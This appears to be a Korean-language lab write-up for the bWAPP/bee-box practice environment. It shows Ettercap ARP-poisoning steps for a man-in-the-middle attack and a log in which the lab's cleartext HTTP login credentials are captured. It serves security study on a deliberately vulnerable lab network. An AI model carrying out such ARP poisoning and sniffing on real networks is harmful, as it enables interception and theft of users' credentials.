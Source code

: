 ![image](https://user-images.githubusercontent.com/28076542/52789600-a0fb3480-30a7-11e9-9b13-12bed5f0c204.png)

* 맨 위 크롬을 Add to Target1
* 세 번째 Bee-Box를 Add to Target 2
* Mitm --> ARP Poisoning --> Sniff remote connections
* View --> Connections
* 이제 크롬에서 로그인 후 **Clear Text HTTP**에서도 로그인 후 Ettercap Log 확인

### Ettercap Log

```bash
Listening on:
  eth0 -> 00:0C:29:1D:54:6C
	  192.168.190.155/255.255.255.0
	  fe80::20c:29ff:fe1d:546c/64

SSL dissection needs a valid 'redir_command_on' script in the etter.conf file
Ettercap might not work correctly. /proc/sys/net/ipv6/conf/eth0/use_tempaddr is not set to 0.
Privileges dropped to EUID 65534 EGID 65534...

  33 plugins
  42 protocol dissectors
  57 ports monitored
20388 mac vendor fingerprint
1766 tcp OS fingerprint
2182 known services
Lua: no scripts were specified, not starting up!
Starting Unified sniffing...

Randomizing 255 hosts for scanning...
Scanning the whole netmask for 255 hosts...
4 hosts added to the hosts list...
Host 192.168.190.1 added to TARGET1
Host 192.168.190.143 added to TARGET2

ARP poisoning victims:

 GROUP 1 : 192.168.190.1 00:50:56:C0:00:08

 GROUP 2 : 192.168.190.143 00:0C:29:7B:42:F7
HTTP : 192.168.190.143:80 -> USER: bee  PASS: bug  INFO: http://192.168.190.143/bWAPP/login.php
CONTENT: login=bee&password=bug&security_level=0&form=submit

HTTP : 192.168.190.143:80 -> USER: bee  PASS: bug  INFO: http://192.168.190.143/bWAPP/insuff_transp_layer_protect_1.php
CONTENT: login=bee&password=bug&form=submit
```

---

## Clear Text HTTP (Credentials) (High)
